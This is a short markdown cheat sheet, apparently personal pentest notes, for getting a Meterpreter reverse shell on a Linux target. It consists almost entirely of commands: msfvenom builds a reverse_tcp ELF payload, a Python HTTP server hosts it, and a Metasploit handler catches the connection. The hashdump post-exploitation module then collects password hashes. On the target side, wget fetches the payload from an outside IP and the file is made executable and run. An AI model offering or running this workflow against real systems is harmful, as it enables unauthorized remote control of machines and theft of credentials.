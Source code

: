# Meterpreter
***

## Attacker Machine
- Create Reverse Meterprester shel
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf  LHOST=AttackerIP LPORT=7777 > rev_shell.elf
```

- Set up an HTTP server
```sh
python3 -m http.server 9999
```

- Set up a handler
```sh
msfconsole
use exploit/multi/handler
set lhost AttackerIP
set lport 7777
set payload linux/x86/meterpreter/reverse_tcp
run
```

- Once you have established a Meterpreter session, you can leverage one of the post-exploitation modules.
```sh
background
use post/linux/gather/hashdump
set session 3
run
```

## Target Machine
- Download reverse shell file
```sh
wget http://10.8.190.54:9999/rev_shell.elf
```
- Execute reverse shell file
```sh
chmod +x rev_shell.elf
./rev_shell.elf 
# go back to Metasploit, you should see a meterpreter session
```















